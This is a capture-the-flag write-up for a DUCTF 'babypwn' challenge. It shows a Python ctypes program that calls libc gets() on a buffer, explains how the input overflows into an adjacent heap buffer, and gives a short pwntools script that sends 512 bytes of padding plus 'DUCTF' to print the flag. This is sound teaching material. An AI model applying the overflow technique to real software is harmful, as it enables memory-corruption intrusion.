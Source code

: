 # babypywn

For this challenge we are given the source code for a python file called babypwn.py running on the remote server.

```
#!/usr/bin/env python3

from ctypes import CDLL, c_buffer
libc = CDLL('/lib/x86_64-linux-gnu/libc.so.6')
buf1 = c_buffer(512)
buf2 = c_buffer(512)
libc.gets(buf1)
if b'DUCTF' in bytes(buf2):
    print(open('./flag.txt', 'r').read())
```

From a first glance this looked something to do with buffer overflow so I ran it locally and used the addressof() and saw the buffers are 512 bytes apart indicating they are alligned one after another.

Looking at the Memory addresses of the buffers I thought they would grow lower as is on the stack.
But after some research I learned that python objects are placed on the heap hence the addressing grows upwards. This means we could overflow from the memory of buf1 into buf2.  


  ![gets man page](https://courses.engr.illinois.edu/cs225/fa2022/assets/notes/stack_heap_memory/memory_layout.png)

Lets have a look at that line libc.gets(buf1), some googling reveals what it is and provides a description. 
![gets man page](gets.PNG)
The last line "no check for buffer overrun is performed" is music to our ears.

We can use perl to generate a buffer 512 bytes long "perl -E 'say "a" x 512' appending 'DUCTF' to the end should cause the flag to be outputed.

We can then use pwn tools to send our buffer and get the flag.

```
from pwn import *
c = remote('0.0.0.0', 8080)
c.sendline(b'aaaaaaaaaa...'+ b'DUCTF')
print(c.recvline().decode())
```